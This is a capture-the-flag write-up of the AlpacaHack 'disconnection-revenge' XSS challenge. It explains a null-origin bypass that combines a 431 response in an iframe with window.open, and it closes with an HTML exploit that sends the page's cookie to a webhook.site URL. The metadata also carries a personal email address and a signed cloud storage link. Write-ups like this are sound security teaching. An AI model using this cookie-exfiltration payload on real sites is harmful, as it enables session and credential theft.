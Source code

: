 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466VRQDKPXA%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T092806Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJIMEYCIQDN66SAQYO5cLoRAVPbmqUTKaJHC7w%2FOpUb1qM1RS8jpgIhALPa%2BZuGL4ULnz0Un59DE7eeMoyyomZtaidYTK0hEOPFKogECOr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgzxB6n2pdl0jU6moqoq3AOlxE1RRDIjj27sm4378Ecs8pWrXHWn5%2BUAhXeezTcDy17plxAqakweGZvmJ59GFfzmeoR0MbTkJAdBrLvM4fMbp9LgcYiF%2Fea4u2CIoydaK40syl%2FHeYpYkJJUfzUHkCNe7%2FU5byW%2FC41W76W44oSeeMpf4SYIpDF5a29H9IViVoBsneu%2FN2WMkhopjSVmPx7yeZDciInZQkGUiHwNGEZS29D5R8HWiBwlZROJzAbSgDSNHc%2FqV3v%2BtznoyGauQwPFPspswP3UaAKurI9MJ4ftJ12F9aipD8eanw4%2Fyh6UmiNStw%2F80rRWPG9JUQXWQ%2B6qe31hkMwhC0vC0D7S4SjmSoePgfQ3xXaCK0VKBFMl6I%2BE2xW%2BKp6tltn5%2BVeyWipZa2VraquJHT6%2F5Zu9JdhZOURqw1ABfVtT1c7sd1huEFQ%2FSzTtLLB4J5qKrcmf87MlxVNltqkOtHRsRrzPrV11yfM1coGErSbVQh10TGBj0U9WYLQVTYEAP%2BC2IBZFpL0P9kT8IQidMYn%2BWY5QDD4AO9uMZrigaftZksyMHyZnOc%2FbSZAHxIbK4OEJlaLT%2B%2BUN0fCz5rzhL3WGh1pfKrMk4s2IiNAolgvm%2BqJQFZNBtzEADZvt1CG%2BaQ6ZijDL8cDBBjqkAd1Z42CgrbG0YVyM4Z8RCg3VxGg%2B%2BrbvxG3%2Fvf7egr69e9BUR96Kfki7fbACkRghv7o%2FYoVJcsG0EDgzTRyf0MlcwJ7MHrmX%2BqWPDE4Rj%2FPVq8jTlATcuDAfRk1yihgwIjXSkUB8x%2BxYzA40HAHhHJ6Zn7d9rC%2FQFNZNRNxBa%2BxRtOsfzOs2JvVG%2BVQTzNMLRs8ACqJkwwcRvx4i3i1KzrC%2Fu5aV\&X-Amz-Signature=faac2085036437ba2edc409b865c00c8afdfe5d22d5d0bbc41f2a7e2f3cb62fb\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
